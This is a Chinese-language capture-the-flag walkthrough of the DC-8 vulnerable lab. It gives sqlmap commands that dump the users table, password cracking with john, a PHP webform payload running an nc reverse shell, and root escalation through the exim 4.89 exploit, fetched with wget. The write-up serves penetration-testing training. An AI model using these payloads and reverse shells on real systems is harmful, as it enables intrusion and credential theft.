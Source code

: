 ```yaml
---
title: DC-8复现
---
```

# DC-8复现

## 描述

> DC-8是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 这个挑战有点混合，既是实际挑战，又是关于在Linux上安装和配置的双因素身份验证是否可以防止Linux服务器被利用的“概念证明”。
>
> 这个挑战的“概念验证”部分是由于Twitter上被问到一个关于双因素身份验证和Linux的问题，也是由于@theart42的建议。
>
> 此挑战的最终目标是绕过双因素身份验证，获取root并读取唯一的标志。
>
> 除非您尝试通过SSH登录，否则您甚至可能不知道安装和配置了双因素身份验证，但它肯定在那里并且正在做它的工作。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

## 信息收集

确认目标机器的IP以及开启的端口

![image-20221201150628772](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201150628772.png)

访问80端口，点击welcome to DC-8发现这个url有点问题，猜想有sql注入

![image-20221201151645623](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201151645623.png)

扫描目录看看有没有登录口

```bash
dirsearch -u 192.168.71.130 -e * -x 403 --random-agent
```

![image-20221201160557499](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201160557499.png)

## SQl注入

在nid参数后面加入一个 `'`后出现了sql报错直接**sqlmap**跑一下

### 爆破数据库

```bash
sqlmap -u "http://192.168.71.130/?nid=1" --dbs
```

得到两个库，其中 `information_schema`是为了提供了访问数据库元数据的方式，所以可以暂时忽略

![image-20221201152316983](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201152316983.png)

### 爆破表

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db --tables
```

一共88个表，包含有**users**表，

![image-20221201153542043](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201153542043.png)

![image-20221201153559541](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201153559541.png)

### 爆破列

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db -T users --columns
```

得到16列

![image-20221201153635852](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201153635852.png)

### 爆破字段名

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db -T users -C name,pass,uid --dump
```

得到两个用户名和经过加密的密码，将密码保存好，利用**john**进行爆破

![image-20221201154123064](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201154123064.png)

## 爆破密码

```bash
john dc8_pass.txt
```

爆出一个：turtle

![image-20221201154620496](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201154620496.png)

## 登录后台

爆出密码后尝试利用登录，前面信息收集的时候就有发现其登录入口，经过测试，发现爆破出来的是john的密码

![image-20221201160940053](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201160940053.png)

在 `Content->Contact Us->Webform->Form settings`里发现有可利用点，可以写入php代码

![image-20221201161518710](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201161518710.png)

## 反弹shell

编写php文件直接执行命令反弹shell

```php
<?php
exec("nc -e /bin/bash 192.168.71.128 6666");
?> 
```

反弹成功

![image-20221201162252984](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201162252984.png)

切换交互式shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## 提权

find查找suid权限的命令

```bash
find / -perm -4000 -print 2>/dev/null
```

![image-20221201162431555](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201162431555.png)

其中的exim4是可利用进行提权的

首先查看exim4的版本

![image-20221201162654433](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201162654433.png)

搜索exim 4.89的漏洞

![image-20221201162930425](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201162930425.png)

复制文件到当前目录

```bash
cp /usr/share/exploitdb/exploits/linux/local/46996.sh hack.sh  
```

利用python起http服务进行传输

```bash
python -m http.server 6666
```

进入tmp文件夹下载文件

```bash
cd /tmp	//tmp文件夹
wget 192.168.71.128:6666/hack.sh	//下载目标文件
```

![image-20221201163259748](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201163259748.png)

但是这个文件是不可执行的，所以要对其赋予执行权限

```
ls -l	//查看当前目录下的所有文件权限
chmod 777 hack.sh	//赋予文件可读、可写和可执行权限
```

![image-20221201163421012](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201163421012.png)

脚本有两种方式，使用第二种利用**netcat**再次进行反弹shell

```bash
./hack.sh -m netcat		//执行脚本
nc -e /bin/bash 192.168.71.128 31337		//反弹shell
```

![image-20221201164356827](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201164356827.png)

## flag

进到根目录下找到flag

![image-20221201164614977](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201164614977.png)
